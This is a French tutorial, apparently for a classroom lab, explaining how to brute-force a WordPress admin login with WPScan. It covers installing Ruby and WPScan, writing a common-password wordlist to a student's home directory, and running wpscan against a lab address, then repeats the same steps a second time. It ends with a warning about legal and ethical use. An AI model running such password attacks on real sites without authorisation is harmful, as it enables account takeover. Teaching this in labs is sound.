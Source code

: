 ### Tutoriel Complet pour une Attaque par Force Brute sur WordPress avec WPScan

#### Prérequis
1. **Kali Linux** ou toute autre distribution Linux.
2. **Ruby** et **RubyGems** installés sur votre système.

### Étape 1: Installation de Ruby et RubyGems

1. **Mettre à jour votre système** :
    ```bash
    sudo apt update
    ```

2. **Installer Ruby et RubyGems** :
    ```bash
    sudo apt install ruby ruby-dev
    ```

### Étape 2: Installation de WPScan

1. **Installer WPScan via RubyGems** :
    ```bash
    sudo gem install wpscan
    ```

### Étape 3: Préparation du fichier de mots de passe

1. **Créer un fichier de mots de passe courant** :
    ```plaintext
    admin
    root
    leo
    123456
    password
    qwerty
    letmein
    football
    monkey
    admin123
    welcome
    ninja
    abc123
    admin@123
    1234
    password1
    passw0rd
    12345
    default
    superuser
    adminadmin
    administrator
    manager
    guest
    test
    ```

2. **Sauvegardez ce fichier dans le répertoire `/home/eleve/` sous le nom `passwords.txt`** :
    ```bash
    echo -e "admin\nroot\nleo\n123456\npassword\nqwerty\nletmein\nfootball\nmonkey\nadmin123\nwelcome\nninja\nabc123\nadmin@123\n1234\npassword1\npassw0rd\n12345\ndefault\nsuperuser\nadminadmin\nadministrator\nmanager\nguest\ntest" > /home/eleve/passwords.txt
    ```

### Étape 4: Utilisation de WPScan pour une Attaque par Force Brute

1. **Exécuter WPScan pour effectuer une attaque par force brute** :
    ```bash
    wpscan --url http://10.0.2.5/monwordpress1 --usernames admin --passwords /home/eleve/passwords.txt
    ```

### Étape par Étape

1. **Mettez à jour votre système et installez Ruby** :
    ```bash
    sudo apt update
    sudo apt install ruby ruby-dev
    ```

2. **Installez WPScan via RubyGems** :
    ```bash
    sudo gem install wpscan
    ```

3. **Créez le fichier de mots de passe courant** :
    ```bash
    echo -e "admin\nroot\nleo\n123456\npassword\nqwerty\nletmein\nfootball\nmonkey\nadmin123\nwelcome\nninja\nabc123\nadmin@123\n1234\npassword1\npassw0rd\n12345\ndefault\nsuperuser\nadminadmin\nadministrator\nmanager\nguest\ntest" > /home/eleve/passwords.txt
    ```

4. **Exécutez WPScan pour l'attaque par force brute** :
    ```bash
    wpscan --url http://10.0.2.5/monwordpress1 --usernames admin --passwords /home/eleve/passwords.txt
    ```

### Conclusion

En suivant ces étapes, vous pourrez effectuer une attaque par force brute sur un site WordPress en utilisant WPScan. Assurez-vous d'utiliser ces techniques de manière éthique et légale dans un environnement contrôlé. Attaquer des systèmes sans autorisation est illégal et contraire à l'éthique.
